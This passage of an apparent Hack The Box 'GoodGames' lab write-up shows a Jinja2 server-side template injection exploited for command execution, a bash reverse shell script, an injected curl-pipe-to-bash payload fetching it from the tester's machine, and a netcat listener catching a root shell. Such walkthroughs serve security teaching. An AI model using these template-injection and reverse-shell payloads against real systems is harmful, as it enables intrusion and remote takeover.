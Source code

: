 ```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

![htb_goodgames_id.png](../assets/goodgames_assets/htb_goodgames_id.png)

Let's exploit this for a reverse shell. For this step I found a helpful site at: https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/

First I'll create a simple bash reverse shell file:

```bash
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.115/9001 0>&1"
```

Then I will set up a python server and netcat listener, and use the SSTI to fetch the shell from my kali box:

```
name={{request.application.__globals__.__builtins__.__import__('os').popen('curl+10.10.14.115%3a8888/revshell.sh+|+bash').read()}}
```

This catches me a shell back:

```
┌──(ryan㉿kali)-[~/HTB/GoodGames]
└─$ nc -lnvp 9001                
listening on [any] 9001 ...
connect to [10.10.14.115] from (UNKNOWN) [10.129.96.71] 46894
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# whoami
whoami
root
root@3a453ab39d3d:/backend# hostname
hostname
3a453ab39d3d
```
